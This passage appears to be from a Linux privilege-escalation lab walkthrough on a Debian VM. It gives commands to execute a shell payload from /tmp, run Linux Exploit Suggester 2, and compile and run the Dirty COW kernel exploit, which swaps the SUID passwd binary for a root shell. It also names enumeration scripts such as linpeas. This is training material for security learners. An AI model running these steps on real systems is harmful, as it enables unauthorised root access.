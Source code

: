 ```

* Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```/tmp/shell.elf ```


## 19. Kernel Exploits 

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

* Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

```perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl ```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

* Compile the code and run it (note that it may take several minutes to complete):

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

* Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```/usr/bin/passwd ```

* Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

```
mv /tmp/bak /usr/bin/passwd
exit
```


## 20. Privilege Escalation Scripts 

Several tools have been written which help find potential privilege escalations on Linux. Three of these tools 

```
LinEnum.sh  linpeas.sh  lse.sh
```
